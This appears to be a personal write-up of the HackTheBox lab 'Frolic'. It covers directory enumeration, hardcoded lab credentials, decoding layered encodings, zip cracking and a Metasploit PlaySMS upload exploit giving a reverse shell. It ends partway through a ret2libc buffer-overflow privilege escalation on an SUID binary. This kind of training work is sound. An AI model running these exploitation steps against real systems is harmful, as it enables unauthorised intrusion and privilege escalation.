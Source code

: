 # FROLIC
frolic was a great box that involved a decent amount of binary exploitation(im not the best at this so if you want a more in
depth explanantion i suggest looking at other writeups, im just doing this so i have a record to look back at.)

>Skills involved in this box:
- enumeration 
- A bit of crypto 
- metasploit
- binary exploitation

# USER

After running an nmap scan we can see that there is quite a few ports open but the main ones that we need are 9999.
There is jsut a welcome message for nginx on the main page so we use dirbuster to search for directories, We use a few 
searches so i will just list all the interesting things that i found:
```
/admin
/backup
/dev
/test
/dev/backup/playsms
```
Taking a look at `/admin` We can see that it is a login page. We look into the source code of the site and find `login.js`:
```javascript
var attempt = 3; // Variable to count number of attempts.
// Below function Executes on click of login button.
function validate(){
var username = document.getElementById("username").value;
var password = document.getElementById("password").value;
if ( username == "admin" && password == "superduperlooperpassword_lol"){
alert ("Login successfully");
window.location = "success.html"; // Redirecting to other page.
return false;
}
else{
attempt --;// Decrementing by one.
alert("You have left "+attempt+" attempt;");
// Disabling fields after 3 attempts.
if( attempt == 0){
document.getElementById("username").disabled = true;
document.getElementById("password").disabled = true;
document.getElementById("submit").disabled = true;
return false;
}
}
}
```
One line sticks out the most and that is the `if ( username == "admin" && password == "superduperlooperpassword_lol"){
`
So now we have some creds, `admin:superduperlooperpassword_lol` we login to the login page and get met buy another site.
```
..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... ..... ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.? !.?.. ..... ..... ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! ..... ..... .!.!! !!!!! !!!!! !!!.? ..... ..... ..... ..!?! !.?!! !!!!! !!!!! !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... ..... ..... .?.?! .?... ..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?. ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... ..... ..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !.... ..... ..!.! !!!!! !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!! !!!!! !?.?! .?!!! !!!!! !!!!! !!!!! !!!!! .?... ....! ?!!.? ..... .?.?! .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?.. !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.? !!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!! !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!! !!!!! !!?.? !.?!! !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. ..... ..... .!.?. ..... ...!? !!.?! !!!!! !!?.? !.?!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!! !!!!! !!!!! !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... ..... ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! ..... ..!.! !!!!! !.?.
```
This is a ciphertext for an langauge called Ook! we find an online decoder for it(i used dcode.fr)
We get teh output:
```
Nothing here check /asdiSIAJJ0QWE9JAS
```
So we check that directory and we find a long base64 string:
```
UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwABBAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbsK1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmveEMrX4+T7al+fi/kY6ZTAJ3h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTjlurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkCAAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUGAAAAAAEAAQBPAAAAAwEAAAAA
```
Decoding this gives a weird output to we decide to decode it into a zip file.
```base64 -d base64.txt > file.zip```
Trying to unzip it shows us that it is password protected so we find a tool that can get us the password from it.
We find a tool called fcrackzip that will do the trick.
```
fcrackzip file.zip -u -D -p /usr/share/wordlists/rockyou.txt
```
After unzipping that we get a file called index.php that contains a long hex string. We decode this from hex and get a base64 string. After decoding that we get a string that appears to be in the language "brainfuck":
```
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..<
```
Of course we use an online decoder to translate this into english and it ourputs `idkwhatispass` We can only assume that this is the password for the playsms page.
We login on playsms with `admin:idkwhatispass` 
We spend a while searching for exploits to gain us a shell, we come accross a metasploit module using searchsploit that will do the trick. Its called `exploit/multi/http/playsms_uploadcsv_exec`
We set the appropriate options:
```
set password idkwhatispass
set rport 9999
set rhosts 10.10.10.111
set targeturi /playsms
set lhost {your tun0 ip}
exploit
```
We now get a shell as www-data and manage to read the user flag.

# ROOT

We find an SUID binary in /home/ayush/.binary, its called rop
we run it to see what it does, basically it just takes our input and outputs it. 
We do:
```
./rop AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
And we see that it returns a seg fault so we have a buffer overflow vulnerability.
We are going to do a ret2libc attack.
GDB is not installed on the box so we download a static version and then upload it via a metpreter session.
Theses are the exploitation steps:
```
on our box: 
gdb-peda$ pattern_create -l 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb rop
break *main
run AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
c
we get an address below the line that says segfault.
gdb-peda$ pattern_offset -q address_we_got
we will get an offset of 52
```
This shows us that the buffer overflows at 52 chars
Now we need to get all the addresses so we will start with finding the /bin/sh in libc
```
www-data@frolic:/home/ayush/.binary$ ldd rop 
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)    <-- this!
        /lib/ld-linux.so.2 (0xb7fdb000)
        
www-data@frolic:/home/ayush/.binary$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 15ba0b /bin/sh
Also in gdb we do `p system` and `p exit` to find the addresses for system and exit 
 ```




